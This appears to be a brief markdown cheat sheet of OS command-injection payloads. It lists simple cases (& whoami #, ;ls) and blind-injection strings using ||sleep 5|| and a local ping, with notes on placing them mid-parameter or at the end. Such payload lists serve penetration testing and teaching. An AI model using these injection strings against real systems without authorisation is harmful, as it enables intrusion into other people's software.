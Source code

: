 ## Simple Case
```
& whoami #
;ls
;ls;
```
#Blind injection

asd||sleep 5|| >> Middle of two parameter.
||ping+-c+10+127.0.0.1||
asd||sleep 5 # >> Last parameter or to comment out extra parameter
